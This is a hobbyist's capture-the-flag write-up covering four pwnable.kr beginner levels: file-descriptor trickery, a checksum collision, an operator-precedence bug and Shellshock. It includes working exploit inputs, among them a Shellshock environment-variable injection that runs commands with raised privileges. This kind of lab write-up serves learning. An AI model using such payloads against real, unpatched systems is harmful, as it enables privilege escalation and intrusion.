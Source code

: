 # pwnable.kr
Just some of my thought process going through the Toddler's Bottle beginner levels.

# 1: [fd]

Looking at the program, I see the program is looking for an input of LETMEWIN to get the flag. However, you can't just enter it as an argument.
The clue asks you what a file descriptor is. After googling, I learned that there are three file descriptors. Standard input is accessed at integer value 0,
so I looked at the line : <br>
````c
int fd = atoi( argv[1] ) - 0x1234; <br>
````
took 0x1234, converted it to decimal, and entered in 4660 as the file argument. This allowed me to write to STDIN, and I entered LETMEWIN.
the flag was returned.


# 2: collision

Looking at the code for col.c, we see a few restrictions for our argument. The passcode length must be length 20.
The password you enter is taken into chunks of four and totalled. Therefore, we need 5 integers whose total should be equal to 0x21DD09EC. 

```c
col@ubuntu:~$ python
Python 2.7.12 (default, Jul  1 2016, 15:12:24)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x21DD09EC
568134124
>>>
```
Next, I converted 0x21DD09EC into decimal, which is: 568134124. We can see by looking at it that 568134124 is not cleanly divisible by 5.
I plugged it into a calculator and got 113626828.8, which is 113626828 and 4/5. This means that if we round off 113626828.8 to 113626828 and subtract 4, we 
have 113626824 * 4 + 113626828 = 568134124. So we have to enter those in hex. I used python:

```c
./col `python -c 'print "\xc8\xce\xc5\x06"*4 + "\xcc\xce\xc5\x06"'`
```
The flag was returned!


# 3: mistake

This one used some knowledge from the first one I did, fd. 

```c
mistake@ubuntu:~$ cat mistake.c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```
Looking at the code we can see a program that starts up, opens the password from the password file, tells you "do not bruteforce...", waits, then asks for a password.
It takes your password and flips the last bit of every byte. If your flipped password matches the password file, cat the flag.
The hint for the problem says "operator priority", so I started looking for errors in execution. You don't have to look far, the
error occurs at the beginning with the file descriptor. 
```c
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }
```
Here we can see that the fd is being set to the outcome of open(...) < 0, instead of the intended setting of fd to the comparison of open(...) and 0.<br>
This is always going to be false, because the password file should open correctly. Therefore, fd is always going to be zero, and it will get its value from stdin. This means that later on the program will compare the flipped input to our stdin. All we need to do is find two 10-digit values that equal each other when one has the last bit of every byte flipped. 0000000000 and 1111111111 work just fine, since we flip 0000 to 0001.<br>
This returns the flag!


# 4: shellshock

This one actually took me a little while to get the formatting correct, but the basic idea is to use the shellshock exploit. The shellshock exploit allows an attacker to inject code into a bash script. Opening up the c++ file shows a small program:
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```
All it does is tell the user to "shock_me". Googling around let me to this: http://resources.infosecinstitute.com/practical-shellshock-exploitation-part-1/, which eventually led to the command: 
```c
env x='() { :;}; /bin/cat ~/flag' ~/shellshock
```
This command adds on extra code to the shellshock file, allowing us to execute our code inside the program that has higher privileges. Running the command gives us the flag!.

